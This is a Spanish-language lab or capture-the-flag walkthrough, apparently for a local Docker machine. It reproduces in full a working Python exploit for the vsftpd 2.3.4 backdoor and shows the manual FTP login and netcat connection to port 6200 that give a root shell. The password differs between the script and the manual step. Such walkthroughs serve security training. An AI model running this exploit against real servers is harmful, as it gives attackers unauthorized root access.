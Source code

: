 ## LEVANTAMOS EL DOCKER 

Una vez levantado el docker nos dice que la ip de la máquina victima es :
```bash
172.17.0.2
```
comprobamos si tenemos trazabilidad con la misma lanzando un ping

```bash
 ping -c 1 172.17.0.2
```
```
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.034 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.034/0.034/0.034/0.000 ms
```

Nos dice que se ha transmitido un paquete, recibido uno y perdido cero, tenemos trazabilidad

## FASE DE RECONOCIMIENTO
 Con nmap vamos a ver los puertos que tiene abiertos, los servicios que corren en los mismos y la versión para ver si hay alguna vulnerabilidad

 ```bash
 sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -vvv --open 172.17.0.2 -oN PuertosYservicios
```
```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.3.4
|_ftp-anon: got code 500 "OOPS: cannot change directory:/var/ftp".
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
```
Vemos un puerto 21 que corre ftp con su versión "vsftpd 2.3.4", al ver que se ha lanzado el script ftp-anom y
su respuesta  got code 500 "OOPS: cannot change directory:/var/ftp" me hace sospechar que esta versión puede ser vulnerable.


##FASE INTRUSIÓN

Hago una busqueda rápida y encuentro este exploit para esa version:
```bash
https://github.com/Hellsender01/vsftpd_2.3.4_Exploit/blob/main/exploit.py
```
```bash
#!/usr/bin/python3

from pwn import *
from sys import exit
from time import sleep

class ExploitFTP:
	def __init__(self,ip,port=21):
		self.ip = ip
		self.port = port
		self.p = log.progress("")

	def trigger_backdoor(self):
		self.p.status("Checking Version...")
		io = remote(self.ip,self.port)
		io.recvuntil(b"vsFTPd ")
		version = (io.recvuntil(b")")[:-1]).decode()
		if version != "2.3.4":
			self.p.failure("Version 2.3.4 Not Found!!!")
			exit()
		else:
			self.p.status("Triggering Backdoor....")
			io.sendline(b"USER hello:)")
			io.sendline(b"PASS hello123")
			io.close()

	def get_shell(self):
		self.p.status("Connecting To Backdoor...")
		sleep(1)
		io = remote(self.ip, 6200)
		self.p.success("Got Shell!!!")
		io.interactive()
		io.close()

if __name__ == "__main__":
	if len(sys.argv) < 2 or len(sys.argv) > 3:
		error(f"Usage: {sys.argv[0]} IP PORT(optional)")

	if len(sys.argv) == 3:
		exploit = ExploitFTP(sys.argv[1],sys.argv[2])
	else:
		exploit = ExploitFTP(sys.argv[1])

	exploit.trigger_backdoor()
	exploit.get_shell()
```

vamos a explicar un poco lo que hace

En esta parte:
```
else:
    self.p.status("Triggering Backdoor....")
    io.sendline(b"USER hello:)")
    io.sendline(b"PASS hello123")
    io.close()
```

Envia un usuario malicioso: "hello:)" y un pass: "hello123" y en teoría abre un backdoor

y en esta parte:

```
def get_shell(self):
    self.p.status("Connecting To Backdoor...")
    sleep(1)
    io = remote(self.ip, 6200)  # Se conecta al puerto 6200
    self.p.success("Got Shell!!!")
    io.interactive()
    io.close()
```
 Se conecta al puerto 6200 que es dónde ha abierto la backdoor, vamos a hacerlo de forma manual

 nos conectamos por ftp:
 ```bash
ftp 172.17.0.2
```
introducimos el user:
```bash
hello:)
```
y luego el pass
```bash
hola123
```
En teoria nos ha tenido que abrir la bacdoor en el puerto 6200 y nos vamos a intentar conectar con nc
```bash
 nc 172.17.0.2 6200
```
 probamos si la conexión tiene exito:
 ```bash
id
```
```
uid=0(root) gid=0(root) groups=0(root)
```
y estamos dentro como root una máquina sencilla que nos recuerda que hay que mirar siempre las vulnerabilidades de las versions




